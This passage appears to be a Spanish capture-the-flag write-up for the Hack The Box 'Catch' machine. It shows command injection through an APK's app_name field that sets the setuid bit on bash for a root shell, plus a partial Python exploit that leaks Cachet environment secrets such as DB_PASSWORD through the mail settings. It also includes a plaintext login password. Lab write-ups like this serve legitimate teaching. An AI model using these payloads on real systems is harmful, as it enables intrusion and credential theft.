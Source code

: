 ```console
└─$ cat ./res/values/strings.xml | grep -oPm1 "(?<=<string name=\"app_name\">)[^<]+"
Catch
└─$ echo -n Catch | xargs -I {} sh -c 'mkdir {}';
```
El bug del script es el ```"if [[ $APP_NAME == *"Catch"* ]]; then``` ya que se peuden concatenar mas comandos. 
```console
└─$ echo -n 'Catch; touch "Hola_Mundo"' | xargs -I {} sh -c 'mkdir {}'; 
└─$ ls
 Catch   original   res   smali   AndroidManifest.xml   apktool.yml   Hola_Mundo
```

```console
cucuxii@kali-xii:~/Maquinas/htb/Catch/catchv1.0$ vim ./res/values/strings.xml
30     <string name="app_name">Catch; chmod u+s /bin/bash</string>
└─$ java -jar apktool.jar b catchv1.0 -o cucuxii.apk
will@catch:/tmp$ cd /opt/mdm/apk_bin
will@catch:/opt/mdm/apk_bin$ curl -s http://10.10.14.16/cucuxii.apk -O
will@catch:/opt/mdm/apk_bin$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
will@catch:/opt/mdm/apk_bin$ bash -p
bash-5.0# whoami
root
```

# Extra: replicando el exploit.

En la web, hay un panel de configuracion donde puedes cambiar cosas del email de cachet "/dashboard/settings/mail".
![catch8](https://user-images.githubusercontent.com/96772264/210350588-79dee17e-cf89-4d4e-85f4-d7cd080ede1a.PNG)

Si en el campo config[mail_address] le pones varaibles de entorno del tipo ${DB_HOST} te las filtra. He replicado el exploit que he encontrado reprogramandolo
yo mismo.

```python
import requests, re
from sys import exit
from random import randint

url = "http://10.10.11.150:8000/"
sess = requests.session()
variables = ["APP_KEY", "DB_HOST", "DB_DATABASE", "DB_USERNAME", "DB_PASSWORD"]

# 1. Obtenemos el CSRF token
req = sess.get(url)
token = re.findall(r'<meta name="token" content="(.*?)">',req.text)[0]

# 2. Login
login_url = url + "auth/login"
data = {"_token": token, "username": "john", "password": "E}V!mywu_69T4C}W"}
req2 = sess.post(login_url, data=data)
if "auth/logout" in req2.text:
	print("[+] Logueados")

# 3. Postear data
url_settings = url + "dashboard/settings/mail"
values = {"mail_driver":"smtp", "mail_host":"",
		"mail_address":"notify@10.129.136.74", "mail_username":"", "mail_password":""}
payload = "".join(['${{{0}}}<x>'.format(x) for x in variables])
payload = f"{randint(1000000000, 9999999999)}<x>{payload}"

def post_data(values, payload, url_settings):
	multipart_data = {'_token': (None, token),
```